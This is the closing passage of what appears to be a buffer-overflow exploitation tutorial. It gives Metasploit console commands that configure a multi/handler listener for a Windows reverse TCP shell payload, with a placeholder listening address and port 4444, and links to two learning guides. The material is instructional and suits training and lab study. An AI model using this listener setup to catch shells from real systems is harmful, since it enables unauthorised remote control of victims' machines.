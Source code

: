 **Using metasploit**
```
msfconsole
use exploit/multi/handler
set payload windows/shell_reverse_tcp
set LHOST IPHERE
set LPORT 4444
run
```

-------------------

That's all, hope you found it useful :)

[nightmare-guide]: https://guyinatuxedo.github.io/index.html
[dostackbufferoverflowgood-guide]: https://github.com/justinsteven/dostackbufferoverflowgood